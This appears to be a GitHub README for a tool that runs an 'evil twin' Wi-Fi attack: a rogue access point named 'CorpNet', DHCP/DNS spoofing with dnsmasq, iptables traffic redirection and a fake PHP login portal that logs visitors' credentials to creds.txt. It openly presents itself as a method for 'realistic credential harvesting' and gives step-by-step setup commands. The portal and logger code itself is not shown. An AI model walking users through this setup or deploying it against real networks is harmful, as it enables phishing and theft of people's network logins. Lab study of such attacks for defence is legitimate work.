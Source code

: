
# ☠️ Evil Twin Captive Portal

**Evil Twin + Captive Portal** attack for realistic credential harvesting on open or enterprise Wi-Fi.

This repo sets up a rogue access point, DNS/DHCP spoofing, and a fake login page to phish Wi-Fi credentials.

## ⚙️ Requirements

- Linux (Kali, Ubuntu, etc.)
- `hostapd`, `dnsmasq`, `php`, `python3`
- Compatible Wi-Fi card in AP mode

---

## 🗂️ Directory Structure

```
Captive_Portal/

├── index.html           ← Fake login portal (responsive)
├── submit.php           ← Credential logger
├── hostapd.conf         ← Rogue AP config
├── dnsmasq.conf         ← DHCP + DNS Spoof config
├── creds.txt            ← Created at runtime
```

---

## 🚀 Step-by-Step Setup

### 1. Prepare the environment

```bash
sudo apt update
sudo apt install hostapd dnsmasq php
sudo ip link set wlan0 down
sudo ip addr flush dev wlan0
```

> Replace `wlan0` with your real AP-capable wireless interface.

---

### 2. Launch the Rogue AP

```bash
sudo hostapd configs/hostapd.conf
```

SSID: `CorpNet`

---

### 3. Start DHCP and DNS spoofing

```bash
sudo dnsmasq -C configs/dnsmasq.conf
```

---

### 4. Run the captive portal web server

```bash
cd captive_portal/
sudo php -S 0.0.0.0:80
```

---

### 5. Enable IP forwarding and redirect HTTP traffic

```bash
sudo sysctl -w net.ipv4.ip_forward=1
sudo iptables -t nat -A PREROUTING -p tcp --dport 80 -j REDIRECT --to-port 80
```

---

## 📲 Test It

- Connect a mobile phone or test device to `CorpNet`
- Try to open any website
- You'll be redirected to the fake login portal
- Enter fake credentials to test the logger

---

## 🔐 View Captured Credentials

```bash
cat creds.txt
```

---

## 📸 Screenshot (optional)

Add a screenshot of the login portal here.

---
